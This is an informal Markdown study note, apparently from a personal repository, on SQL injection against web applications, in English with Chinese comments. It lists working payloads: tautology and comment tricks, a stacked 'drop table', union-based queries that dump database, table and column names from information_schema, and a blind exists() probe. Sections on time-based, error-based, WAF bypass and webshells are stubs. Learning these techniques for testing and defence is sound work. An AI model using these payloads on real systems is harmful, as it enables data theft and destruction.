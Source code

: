# SQLinjection  
SQL is a famous database engine which is used with web server. In this situation, we can inject some SQL based code to get what we want <3.  
[Remember, practice makes perfect!](http://www.tutorialspoint.com/mysql_terminal_online.php)   
  
### Basic injection  
select password from users where name = '$id';  
So, what can we insert into $id?  
```  
5566 or 1=1 --  
5566; drop table hello  // execute drop table on second line  

rafael' or 1=1 --  // select password from users where name = 'rafael' or 1=1 --';  
rafael' or ''='    // select password from users where name = 'rafael' or ''=''; 
```  
  
### Union based  
Try on terminal what will **SELECT name, password FROM users WHERE id = 1 UNION SELECT 1, 2** happen?  
Ans: The union result will show as second result with matching column of name and password!  
Therefore, if we just want the info we need, we can make the first clause not exist...  
```
select name, password from users where id = 1 and 1 = 0 union select 1, 2;  

// 秀出當前的庫名,使用者
select name, password from users where id = 1 and 1 = 0 union select database(), system_user();  
  
// 可以得到目前資料庫下的表名,欄位名  
... union select column_name, table_name from information_schema.columns where table_schema=database(); 

// 也可以得到其他資料庫的名字!  
... union select table_schema, table_name from information_schema.columns;  
// 我的 k朋友說: 尋找 資料庫就應該用schemata, 回傳才不會重複而且有效率
... union select group_concat(schema_name) from information_schema.schemata;  // group_concat會將結果合併成一行,我們甚至不需要limit

// 可以得到所有table和column的名字 
... union select table_name, column_name from information_schema.columns;

// 回傳的結果太多 , 我們可以用 limit加以限制
// 網頁常常只能show唯一的結果
... union select table_name, column_name from information_schema.columns limit 1, 1;  
```  
[What's in information_schema.columns?](https://dev.mysql.com/doc/refman/5.7/en/columns-table.html)  
**group_concat() is also a litte trick.**

### Blind based   
When we cannot show results what we want, we still can find whether it exists or not.  
**True**: Web page shows normal.  
**False**: Web page shows error or blank.  
```  
... exists (select * from table);  // 配合 AND使用
```

### Time based  
Wait for my first time practice ><...
  
### Error based  
Show the result in error message!  
Wait for my first time practice ><... 
  
### WAF bypass
WAF is a defender for web.
  
### Webshell  
Based on the provilege of db user, we can upload shell to read or write to db.
